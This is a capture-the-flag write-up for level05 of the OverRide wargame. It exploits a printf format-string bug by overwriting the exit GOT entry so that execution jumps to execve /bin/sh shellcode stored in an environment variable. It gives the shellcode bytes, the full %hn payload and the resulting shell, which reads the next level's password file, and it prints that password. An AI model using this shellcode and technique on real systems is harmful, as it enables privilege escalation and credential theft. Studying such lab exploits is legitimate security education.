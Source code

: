     level05@OverRide:~$ ./level05
    whoami
    whoami

***

    level05@OverRide:~$ ltrace ./level05
    __libc_start_main(0x8048444, 1, -10300, 0x8048520, 0x8048590 <unfinished ...>
    fgets(whoami
    "whoami\n", 100, 0xf7fcfac0)                                                                        = 0xffffd6b8
    printf("whoami\n"whoami
    )                                                                                        = 7
    exit(0 <unfinished ...>
    +++ exited (status 0) +++

***

    (gdb) disass main
    Dump of assembler code for function main:
    0x08048444 <+0>:     push   %ebp
    0x08048445 <+1>:     mov    %esp,%ebp
    0x08048447 <+3>:     push   %edi
    0x08048448 <+4>:     push   %ebx
    0x08048449 <+5>:     and    $0xfffffff0,%esp
    0x0804844c <+8>:     sub    $0x90,%esp              // 0x90 = 144
    0x08048452 <+14>:    movl   $0x0,0x8c(%esp)         // 0x8c = 140
    0x0804845d <+25>:    mov    0x80497f0,%eax          // stdin
    0x08048462 <+30>:    mov    %eax,0x8(%esp)
    0x08048466 <+34>:    movl   $0x64,0x4(%esp)         // 0x64 = 100
    0x0804846e <+42>:    lea    0x28(%esp),%eax         // 0x28 = 40
    0x08048472 <+46>:    mov    %eax,(%esp)
    0x08048475 <+49>:    call   0x8048350 <fgets@plt>
    0x0804847a <+54>:    movl   $0x0,0x8c(%esp)
    0x08048485 <+65>:    jmp    0x80484d3 <main+143>
    0x08048487 <+67>:    lea    0x28(%esp),%eax
    0x0804848b <+71>:    add    0x8c(%esp),%eax
    0x08048492 <+78>:    movzbl (%eax),%eax
    0x08048495 <+81>:    cmp    $0x40,%al               // 0x40 = '@'
    0x08048497 <+83>:    jle    0x80484cb <main+135>
    0x08048499 <+85>:    lea    0x28(%esp),%eax
    0x0804849d <+89>:    add    0x8c(%esp),%eax
    0x080484a4 <+96>:    movzbl (%eax),%eax
    0x080484a7 <+99>:    cmp    $0x5a,%al               // 0x5a = 'Z'
    0x080484a9 <+101>:   jg     0x80484cb <main+135>
    0x080484ab <+103>:   lea    0x28(%esp),%eax
    0x080484af <+107>:   add    0x8c(%esp),%eax
    0x080484b6 <+114>:   movzbl (%eax),%eax
    0x080484b9 <+117>:   mov    %eax,%edx
    0x080484bb <+119>:   xor    $0x20,%edx              // 0x20 = 32
    0x080484be <+122>:   lea    0x28(%esp),%eax
    0x080484c2 <+126>:   add    0x8c(%esp),%eax
    0x080484c9 <+133>:   mov    %dl,(%eax)
    0x080484cb <+135>:   addl   $0x1,0x8c(%esp)
    0x080484d3 <+143>:   mov    0x8c(%esp),%ebx
    0x080484da <+150>:   lea    0x28(%esp),%eax
    0x080484de <+154>:   movl   $0xffffffff,0x1c(%esp)
    0x080484e6 <+162>:   mov    %eax,%edx
    0x080484e8 <+164>:   mov    $0x0,%eax
    0x080484ed <+169>:   mov    0x1c(%esp),%ecx
    0x080484f1 <+173>:   mov    %edx,%edi
    0x080484f3 <+175>:   repnz scas %es:(%edi),%al      // strlen
    0x080484f5 <+177>:   mov    %ecx,%eax
    0x080484f7 <+179>:   not    %eax
    0x080484f9 <+181>:   sub    $0x1,%eax
    0x080484fc <+184>:   cmp    %eax,%ebx
    0x080484fe <+186>:   jb     0x8048487 <main+67>
    0x08048500 <+188>:   lea    0x28(%esp),%eax
    0x08048504 <+192>:   mov    %eax,(%esp)
    0x08048507 <+195>:   call   0x8048340 <printf@plt>
    0x0804850c <+200>:   movl   $0x0,(%esp)
    0x08048513 <+207>:   call   0x8048370 <exit@plt>
    End of assembler dump.

***

This program basically takes string from stdin into buffer of size 100 and converts it to lowercase (A-Z -> a-z) and then prints it back.
We are throwing buffer straight into printf. It works as expected when the input is normal text but if the input is C format strings.

For example this way we get hexadecimal values from the stack:

***

    level05@OverRide:~$ ./level05
    %x%x%x%x
    64f7fcfac0f7ec3af9ffffd6df

***

Let's use it to find offset of input string on stack. `aaaa` if hex is 61616161:

***

    level05@OverRide:~$ ./level05
    aaaa %x %x %x %x %x %x %x %x %x %x %x
    aaaa 64 f7fcfac0 f7ec3af9 ffffd6df ffffd6de 0 ffffffff ffffd764 f7fdb000 61616161 20782520

***

Offset = 10

* %x -> Output Hexadecimal Number
* %n -> Writes the number of bytes till the format string to memory

Another point of vulnerability is exit function. 

In order to conserve RAM programs share libraries and that means that memory location of a library routine varies and PLT (Procedure Linkage Table) and GOT (Global Offset Table) are used to hold the current addresses of library functions.

We can see Dynamic Relocation entries with objdump:

***

    level05@OverRide:~$ objdump -R level05

    level05:     file format elf32-i386

    DYNAMIC RELOCATION RECORDS
    OFFSET   TYPE              VALUE
    080497c4 R_386_GLOB_DAT    __gmon_start__
    080497f0 R_386_COPY        stdin
    080497d4 R_386_JUMP_SLOT   printf
    080497d8 R_386_JUMP_SLOT   fgets
    080497dc R_386_JUMP_SLOT   __gmon_start__
    080497e0 R_386_JUMP_SLOT   exit
    080497e4 R_386_JUMP_SLOT   __libc_start_main

***

The address of "exit" is stored at 0x080497e0. If we can write to that address, we can take over the program's execution when it calls "exit@plt".

Now we should put shellcode to open bash into env variable and find its address:

***

    export EGG=$(python -c "print '\x90' * 70 + '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'")

    level05@OverRide:~$ gdb level05
    (gdb) b main
    Breakpoint 1 at 0x8048449
    (gdb) r
    Starting program: /home/users/level05/level05

    Breakpoint 1, 0x08048449 in main ()
    (gdb) x/10s *((char**)environ)
    [...]
    0xffffd8e2:      "EGG=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\311\367\341Qh//shh/bin\211\343\260\v̀"
    [...]

***

Shellcode EGG is at address 0xffffd8e2 + 10(offset) = 0xffffd8ec

We are going to print shellcode EGG at exit: 4 lower bytes 0xd8ec (decimal 55532) at 0x080497e0 and 4 higher bytes  0xffff (decimal 65535) at 0x080497e2

But we will need to move this addresses around. 

- %hn means to write only a short value (usually 2 bytes) at the given address
- DWORD `NOPE` or any other 4 bytes between addresses are used by %x between %hn to control the width and what is written
- To calculate width:
    - 'byte to be written' - 'output byte' + 'width of %x before %hn' -> for lower bytes
    - 'byte to be written' - 'previous byte' -> for higher bytes

***

    level05@OverRide:~$ python -c "print '\xe0\x97\x04\x08NOPE\xe2\x97\x04\x08' + '%x' * 8 + '%0x%hn'" > /tmp/lvl5
    level05@OverRide:~$ gdb level05
    (gdb) r < /tmp/lvl5
    Starting program: /home/users/level05/level05 < /tmp/lvl5
    �nope�64f7fcfac0f7ec3af9ffffd65fffffd65e0ffffffffffffd6e40

    Program received signal SIGSEGV, Segmentation fault.
    0x08040040 in ?? ()
    (gdb) p (0xd8ec - 0x0040) + 1
    $1 = 55469

    python -c "print '\xe0\x97\x04\x08NOPE\xe2\x97\x04\x08' + '%x' * 8 + '%55469x%hn%0x%hn'" > /tmp/lvl5
    [...]
    Program received signal SIGSEGV, Segmentation fault.
    0xd8f4d8ec in ?? ()
    (gdb) p (0xffff - 0xd8f4) + 8
    $1 = 10003

***

We have our offsets for low and high parts of address and it is time to try them:

***

    (python -c "print '\xe0\x97\x04\x08NOPE\xe2\x97\x04\x08' + '%x' * 8 + '%55469x%hn%10003x%hn'" ; cat -) | ./level05
    whoami
    level06
    cat /home/users/level06/.pass
    h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq

***

[Useful link](https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf)
